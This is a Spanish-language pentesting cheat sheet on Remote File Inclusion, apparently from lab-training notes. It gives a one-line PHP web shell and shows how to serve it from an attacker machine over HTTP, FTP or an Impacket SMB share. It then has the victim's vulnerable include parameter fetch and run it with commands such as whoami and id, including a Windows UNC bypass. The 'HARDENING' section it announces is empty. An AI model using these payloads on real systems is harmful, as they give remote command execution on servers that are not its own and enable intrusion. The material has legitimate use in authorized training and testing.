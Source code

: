 ```bash
python -m SimpleHTTPServer 8080
```

Y llamamos desde la pagina de la maquina victima a un archivo remoto (RFI) que etsa en nuestro equipo a traves del servidor en python:

```bash
http://localhost/file.php?file=http://<IP KAIL>:8080/shell.php
```

O puede hacer:

```bash
echo "<?php system($_GET['cmd']); ?>" > shell.php

http://localhost/file.php?file=http://<IP KAIL>:8080/shell.php&cmd=whoami
```

Se puede hacer mediante FTP:

```bash
pip install pyftpdlib

python -m pyftpdlib -p 21

http://localhost/file.php?file=ftp://<IP KAIL>:8080/shell.php&cmd=whoami
```

De forma predeterminada, PHP intenta autenticarse como un usuario anónimo. Si el servidor necesita autenticación, las credenciales se pueden especificar de la siguiente manera:

```bash
http://blog.inlanefreight.com/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id
```

## RFI WINDOWS

Cuando la aplicación se ejecuta en Windows, las restricciones aplicadas por `allow_url_include` se pueden omitir mediante el protocolo SMB. Esto se debe a que Windows trata los archivos de los servidores SMB remotos como archivos normales, a los que se puede hacer referencia directamente con una ruta UNC. Podemos activar un servidor SMB utilizando smbserver.py de Impacket, que permite la autenticación anónima de forma predeterminada.

```bash
smbserver.py -smb2support smbfolder $(pwd)


http://blog.inlanefreight.com/index.php?language=\\<IP KALI>\smbfolder\shell.php&cmd=id
```

## BYPASS FILTROS

Todos los filtros de LFI son aplicables a RFI.

# HARDENING
